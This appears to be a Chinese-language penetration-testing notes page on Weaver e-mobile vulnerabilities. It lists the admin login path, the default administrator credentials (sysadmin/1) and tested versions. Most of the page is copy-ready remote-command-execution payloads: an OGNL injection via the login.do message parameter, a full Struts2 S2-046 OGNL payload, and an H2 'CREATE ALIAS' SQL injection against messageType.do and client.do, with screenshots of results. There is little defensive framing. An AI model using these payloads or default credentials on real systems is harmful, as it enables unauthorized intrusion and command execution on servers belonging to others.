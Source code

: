 前置基础
---


相关漏洞
---
### 后台 & 默认账号密码

- 后台地址
```
/manager/login.do
```
- 默认账号密码
e-mobile常搭配e-cology使用、系统管理员即为e-cology的默认管理员
```
sysadmin/1
```

### CNVD-2017-03561 login.do OGNL 表达式注入漏洞

已测试版本
```
v6.5
v5.5
```

触发点
- /login.do?message=${}
- /manager/login.do?message=${}

回显

```java
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/157926046-e10965ef-4eef-4a87-8105-cfcf7849437c.png)



### CNVD-2017-07285 S2-046 (S2系列)

已测试版本
```
v5
```

S2系列漏洞

![image](https://user-images.githubusercontent.com/55024146/157924785-3104e738-e0ad-4695-874d-43b5bb675fa4.png)

回显
```
filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
测试效果(S2-046)

![image](https://user-images.githubusercontent.com/55024146/157925660-8eb25fbb-8634-491f-bcf8-6181f5686686.png)





### CNVD-2021-25287 SQLi to RCE (messageType.do & client.do)

已测试版本
```
v6.6
```

内置H2数据库，可以利用alias别名，调用java代码达到命令执行的效果


```java
CREATE ALIAS EXEC AS
$$ void e(String cmd) throws java.io.IOException
{java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);}$$
CALL EXEC('whoami');
```

测试效果
- messageType.do

<img src="https://user-images.githubusercontent.com/55024146/157912369-ff97664d-b31c-4d45-8643-20b3e40db74d.png" style="zoom:33%;" />



- client.do

<img src="https://user-images.githubusercontent.com/55024146/157912285-08fb69ee-c055-4935-afb5-d6fcf6d54dbe.png" style="zoom:33%;" />








